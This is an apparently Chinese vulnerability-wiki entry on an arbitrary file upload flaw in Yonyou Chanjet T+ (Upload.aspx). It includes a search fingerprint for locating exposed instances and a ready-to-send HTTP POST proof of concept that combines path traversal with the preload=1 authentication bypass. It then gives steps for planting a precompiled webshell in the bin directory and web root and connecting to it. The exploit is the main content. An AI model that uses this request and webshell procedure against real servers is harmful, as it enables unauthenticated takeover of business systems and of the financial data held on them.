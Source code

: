 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-2353804.png)

存在漏洞的接口为` /tplus/SM/SetupAccount/Upload.aspx `, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![img](/assets/PeiQi-Wiki/img/1662034256298-447ab241-2def-46e0-a97d-9dae60549044.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![img](/assets/PeiQi-Wiki/img/1662034644623-835164ab-e259-41ab-9999-2a5ef462a462.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![img](/assets/PeiQi-Wiki/img/1662037558563-ffb9835f-fc57-4d45-bc08-dfdf5cb2892d.png)

![img](/assets/PeiQi-Wiki/img/1662037573454-3bc3ef0c-3ff2-46b6-b90a-ef3c72150be2.png)

![img](/assets/PeiQi-Wiki/img/1662037605211-d44eed98-a1e1-4bac-85be-bb2909844f68.png)

再访问写入的Webshell进行连接

```html
/tplus/shell.aspx?preload=1	
```